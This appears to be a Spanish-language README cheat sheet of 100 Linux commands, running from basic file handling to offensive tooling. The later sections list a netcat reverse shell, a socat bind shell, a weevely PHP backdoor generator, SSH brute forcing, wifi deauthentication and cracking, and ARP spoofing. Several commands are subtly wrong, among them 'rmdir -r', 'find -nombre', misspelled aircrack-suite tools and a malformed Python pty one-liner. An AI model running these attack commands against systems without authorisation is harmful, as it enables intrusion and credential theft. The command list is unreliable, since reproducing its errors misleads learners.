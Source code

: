 # C-digo-b-sico
# 01. Código de comandos básicos para Linux:
   
1.`pwd` - Directorio actual
2. `ls` - Lista los archivos del directorio
3. `cd` - Cambia de directorio
4. `mkdir <carpeta>` - Crea una carpeta
5. `rm <archivo>` - Borra un archivo
6. `rmdir -r <carpeta>`- Borra una carpeta
7. `cp <archivo> <destino>` - Copia archivos
8. `mv <archivo> <destino>` - mueve/cambia de nombre archivos
9. `touch <archivo>` - Crea un archivo
10. `cat <archivo>` - Muestra el contenido de un archivo
11. `nano <archivo>` - Editor de archivo Nano
12. `vim <archivo>` - Editor de archivo Vim
13. `find / -nombre <archivo>` - Busca un archivo
14. `grep "texto" <archivo>` - Busca un texto en un archivo 
15. `history` - Muestra la historia de comandos

# 02. Comandos de información del sistema:

16. uname -a - Muestra información del sistema
17. whoami - Muestra el usuario actual
18. id - Muestra el ID del usuario y del grupo
19. uptime - Muestra la cantidad de tiempo del sistema está operativo
20. df -h - Muestra el uso del disco
21. du -sh <carpeta> - Muestra el tamaño de una carpeta
22. top - Muestra procesos activos
23. ps aux - Lista los procesos que se están ejecutando
24. kill <proceso> - Termina un proceso
25. htop - Gestion de procesos interactivos

# 03. Uso de comandos de gestión:

26. adduser <usuario> - Añade un nuevo usuario
27. deluser <usuario> - Elimina un usuario
28. passwd <usuario> - Cambia la contraseña
29. usermod -aG sudo <usuario> - Da acceso de superusuario
30. groups <usuario> -Muestra los grupos del usuario
31. chmod 777 <archivo> - Cambia los permisos del archivo
32. chown usuario:grupo <archivo> - Cambia el dueño del archivo

# 04. Comandos en redes:

33. ifconfig - Muestra la interfaz de la red
34. ip a - Muestra la dirección IP
35. iwconfig - Muestra la interfaz wifi
36. ping <IP> - Test de conexión IP
37. netstat -tulnp - Muestra los puertos abiertos
38. nmap <IP> - Escanea los puertos abierto del objetivo
39. traceroute <IP> - Traza una ruta a un host
40. curl <URL> - Busca datos de una URL
41. wget <URL> - Descarga un archivo
42. dig <dominio> - Obtiene infomacion DNS
43. nslookup <dominio> - Realiza una busqueda de DNS

# 05. Comandos de Hacking & Test de Penetración:

44. msfconsole - Inicia Mestasploit
45. msfvenom - Genera cargas útiles (payloads)
46. searchsploit <exploit> - Busca exploits
47. sqlmap -u <URL> --dbs - Test de SQL injection
48. hydra -l user -P pass.txt <IP> shh - SSH de fuerza bruta
49. john --wordlist=rockyou.txt hash.txt - Crackea hashes
50. airmon-ng start wlan0 - Permite modo monitorización
51. airdump-ng wlan0mon - Captura paquetes wifi
52. airplay-ng -0 10 -a <BSSID> wlan0mon - Desautentica clientes
53. aircrack-ng -w rockyou.txt -b <BSSID> <archivo_capturado> - Crackea contraseña WIFI
54. hashcat -m 2500 hash.txt rockyou.txt - Cracka hashes usando GPU
55. ettercap -T -q -i eth0 - Realiza una suplantación de ARP
56. driftnet -i eth0 - Captura imágenes del trafico de red
57. tcpdump -i eth0 - Captura paquetes de red
58. tshark -i eth0 - Analisis del trafico de red
59. nikto -h <URL> - Escanea nulnerabilidades de servidores web
60. gobuster dir -u <URL> -w /urs/share/wordlists/dirb/common.txt - Fuerza bruta de la carpeta
61. wpscan --url <URL> - Escanea vulnerabilidades en WordPress

#06. Escalada de Privilegios & Post-Explotaciones:

62. sudo -l - Muestr los privilegios de superusuario
63. sudo su - Cambia a usuario root
64. python -c 'import pty:pty.spawn("/bin/bash/")' - Habilita el shell/terminal
65. nc -lvnp <puerto> - Empieza un Netcat de escucha
66. nc <IP> <puerto> -e /bin/bash - Shell inverso
67. meterpreter> getuid - Muestra el usuario actual en Meterpreter
68. meterpreter> getsystem - Intenta escalar privilegios
69. meterpreter> upload / download <archivo> - Transfiere archivos
70. merterpreter> shell - Obterner shell/terminal del sistema
71. linux-exploit-suggester - Sugiere exploits para escalada de privilegios

# 07. Cifrado de Archivos & Datos:

72. gpg -c <archivo> - Cifra un archivo
73. gpg -d <archivo.gpg> - Descifra un archivo
74. openssl enc -aes-256-cbc -salt -in <archivo> -out <archivo.enc> Cifra usando OpenSSL
75. openssl enc -d -aes-256-cbc -salt -in <archivo.enc> -out <archivo> - Descifra el archivo

# 08. Forense & Esteganografía:

76. string <archivo> - Extrae los strigns de un archivo
77. binwalk <archivo> - Analiza binarios
78. foremost -i <imagen> - Extrae archivos de una imagen
79. exiftool <archivo> - Muestra los metadatos de un archivo
80. stegseek <archivo steg/stegfile> -Detecta datos ocultos en una imagen

09. Cracking de Contraseñas & Hashes:

81. hashid <hash> - Identifica el tipo de hash
82. hydra -L users.txt -P passwords.txt ssh://<IP> - Fuerza bruta SSH
83. john hash.txt --wordlists=rockyou.txt - Crackea hashes de contraseñas

10. Tests de Aplicaciones Web:

84. dir <URL> - Enumeracion de carpetas
85. wfuzz -c -z file,wordlists.txt --hc 404 <URL>/ FUZZ - Web fuzzing
86. xsssniper -u <URL> - Test para XSS
87. commix --url <URL> - Test de inyección de comandos
88. burpsuite - Test con Burp Suite

# Varios:

89. crunch 8 8 abcdefghijklmnopqrstuvwxyz - Genera una wordlist
90. proxychains nmap -sT -Pn <IP> - Usa proxychains con Nmap
91. tor - Abre navegador Tor
92. mitmproxy - Empieza un proxy de man-in-the-middle
93. setoolkit - Comienza una Ingenieria Social con Toolkit
94. cewl -w words.txt -d 5 <URL> - Genera una lista de palabras personalizadas
95. weevely generate password backdoor.php - Crea una backdoor en una web
96. socat TCP-LISTEN:4444,fork EXEC:/bin/bash - Une el shell
97. whois <domain> - Da información sobre el dominio
98. theHarvester -d <domain> -l 100 -b google -Recolecta información sobre email y subdominios
99. fcrackzip -u -D -p rockyou.txt <archivo.zip> - Crackea una contraseña de un archivo .zip
100. dnscan -d <dominio> - Muestra subdominios
